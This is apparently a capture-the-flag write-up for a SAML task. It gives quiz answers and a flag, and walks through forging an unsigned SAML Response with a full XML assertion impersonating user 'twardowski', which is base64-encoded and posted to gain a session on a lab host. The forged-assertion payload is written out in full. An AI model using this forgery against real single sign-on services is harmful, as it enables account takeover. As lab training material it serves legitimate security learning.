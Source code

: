 # Task 7 Twardowski

## 1. What is the name of the XML entity that contains information about user such as their name, email, roles, etc.?

Answer: `assertion`

<br>

<details>
<summary>Solution</summary>

Answer for that information we can find in task description:

`IdP authenticates you and creates an SAML assertion`

</details>

<br>
<br>

## 2. What is the name of a party that authenticates users and issues SAML assertions?

Answer: `Identity Provider`

<br>

<details>
<summary>Solution</summary>

Also that information is in task description:

`IdP authenticates you and creates an SAML assertion`
`a user, an identity provider (IdP)`

</details>

<br>
<br>

## 3. What is the date on the document scan from Twardowski's account in DD/MM/YYYY format?

Answer: `15/06/2023`

<br>
<br>

## 4. What should be the value of Content-Type header when sending the SAML Response?

Answer: `application/x-www-form-urlencoded`

<br>

<details>
<summary>Solution</summary>

I searched for that information in google and I found that information in that [post](https://stackoverflow.com/questions/54880602/how-to-deal-with-saml-responses-without-a-content-type-header).

</details>

<br>
<br>

## 5. What should be Destination set to in SAML Response?

Answer: `files.midsummer.corp.local/apps/user_saml/saml/acs`

<br>

<details>
<summary>Solution</summary>

That information was in mail from Twardowski to Boruta:
`You can send POST request to the Service Provider (SP) to "/apps/user_saml/saml/acs"`

The first part of url we can find in the main site `10.10.116.151` in the `<a>` tag:

```html 
<a href="https://files.midsummer.corp.local" target="_blank" rel="noreferrer noopener" class="entity-name">Midsummer Corp</a>
```

</details>

<br>
<br>

## 6. What should be Issuer set to in SAML Response?
Answer: `http://idp.midsummer.corp`

<br>

<details>
<summary>Solution</summary>

In the mail from Twardowski to Boruta we can find sentence:

```
For some reason http://idp.midsummer.corp stopped working lately and I could not bring it back online.
```

</details>

<br>
<br>

## 7. What is the content of the Fern_flower_ritual_shard5.txt file in Twardowski's account?

Answer: `Midsummer_Corp{Look_f0r_th3_fern_w1th_silv3r_l3av3s}`

<br>

<details>
<summary>Solution</summary>

We must create saml response. I got from the Internet example of a saml response.

``` xml
<samlp:Response xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol" xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion" ID="_8e8dc5f69a98cc4c1ff3427e5ce34606fd672f91e6" Version="2.0" IssueInstant="2014-07-17T01:01:48Z" Destination="http://10.10.116.151/apps/user_saml/saml/acs" InResponseTo="ONELOGIN_4fee3b046395c4e751011e97f8900b5273d56685">
  <saml:Issuer>http://idp.midsummer.corp</saml:Issuer>
  <samlp:Status>
    <samlp:StatusCode Value="urn:oasis:names:tc:SAML:2.0:status:Success"/>
  </samlp:Status>
  <saml:Assertion xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xs="http://www.w3.org/2001/XMLSchema" ID="_d71a3a8e9fcc45c9e9d248ef7049393fc8f04e5f75" Version="2.0" IssueInstant="2014-07-17T01:01:48Z">
    <saml:Issuer>http://idp.midsummer.corp</saml:Issuer>
    <saml:Subject>
      <saml:NameID SPNameQualifier="http://10.10.116.151/apps/user_saml/saml/metadata" Format="urn:oasis:names:tc:SAML:2.0:nameid-format:transient">_ce3d2948b4cf20146dee0a0b3dd6f69b6cf86f62d7</saml:NameID>
      <saml:SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
        <saml:SubjectConfirmationData NotOnOrAfter="2024-01-18T06:21:48Z" Recipient="http://10.10.116.151/apps/user_saml/saml/acs" InResponseTo="ONELOGIN_4fee3b046395c4e751011e97f8900b5273d56685"/>
      </saml:SubjectConfirmation>
    </saml:Subject>
    <saml:Conditions NotBefore="2014-07-17T01:01:18Z" NotOnOrAfter="2024-01-18T06:21:48Z">
      <saml:AudienceRestriction>
        <saml:Audience>http://10.10.116.151/apps/user_saml/saml/metadata</saml:Audience>
      </saml:AudienceRestriction>
    </saml:Conditions>
    <saml:AuthnStatement AuthnInstant="2014-07-17T01:01:48Z" SessionNotOnOrAfter="2024-07-17T09:01:48Z" SessionIndex="_be9967abd904ddcae3c0eb4189adbe3f71e327cf93">
      <saml:AuthnContext>
        <saml:AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</saml:AuthnContextClassRef>
      </saml:AuthnContext>
    </saml:AuthnStatement>
    <saml:AttributeStatement>
      <saml:Attribute Name="uid" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
        <saml:AttributeValue xsi:type="xs:string">test</saml:AttributeValue>
      </saml:Attribute>
      <saml:Attribute Name="mail" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
        <saml:AttributeValue xsi:type="xs:string">test@example.com</saml:AttributeValue>
      </saml:Attribute>
      <saml:Attribute Name="alias" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
        <saml:AttributeValue xsi:type="xs:string">twardowski</saml:AttributeValue>
      </saml:Attribute>
      <saml:Attribute Name="role" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
        <saml:AttributeValue xsi:type="xs:string">sso</saml:AttributeValue>
      </saml:Attribute>
      <saml:Attribute Name="eduPersonAffiliation" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
        <saml:AttributeValue xsi:type="xs:string">users</saml:AttributeValue>
        <saml:AttributeValue xsi:type="xs:string">examplerole1</saml:AttributeValue>
      </saml:Attribute>
    </saml:AttributeStatement>
  </saml:Assertion>
</samlp:Response>
```


I made some changes:
- issuer: `http://idp.example.com/metadata.php` -> `http://idp.midsummer.corp`
- destination: `http://sp.example.com/demo1/index.php?acs` -> `http://files.midsummer.corp.local/apps/user_saml/saml/acs` but there is some problem `files.midsummer.corp.local` does not exist, we must use machine ip instead
- recipient: same as destination

- Also Twardowski mentioned about the `sso group`, so we need to add something like this in the saml response:

```xml
<saml:AttributeStatement>
  <saml:Attribute Name="uid" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
    <saml:AttributeValue xsi:type="xs:string">test</saml:AttributeValue>
  </saml:Attribute>
  <saml:Attribute Name="mail" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
    <saml:AttributeValue xsi:type="xs:string">test@example.com</saml:AttributeValue>
  </saml:Attribute>
  <saml:Attribute Name="alias" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
    <saml:AttributeValue xsi:type="xs:string">twardowski</saml:AttributeValue>
  </saml:Attribute>
  <saml:Attribute Name="role" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
    <saml:AttributeValue xsi:type="xs:string">sso</saml:AttributeValue>
  </saml:Attribute>
  <saml:Attribute Name="eduPersonAffiliation" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
    <saml:AttributeValue xsi:type="xs:string">users</saml:AttributeValue>
    <saml:AttributeValue xsi:type="xs:string">examplerole1</saml:AttributeValue>
  </saml:Attribute>
</saml:AttributeStatement>
```

- Also we must change metadata
```xml
<saml:AudienceRestriction>
  <saml:Audience>http://10.10.200.65/apps/user_saml/saml/metadata</saml:Audience>
</saml:AudienceRestriction>
```
Without that we will get respone: `Account not provisioned`.

Next we must encode saml response. I used for it [base64encode.org](https://www.base64encode.org/). Next in Postman we must set cookie and body:

<img src="./task_7_a.png" width="1000"/>
<img src="./task_7_b.png" width="1000"/>


After we receive response, we will get cookies: `nc_username: twardowski`.

Now we are logged in and we can capture the flag.

</details>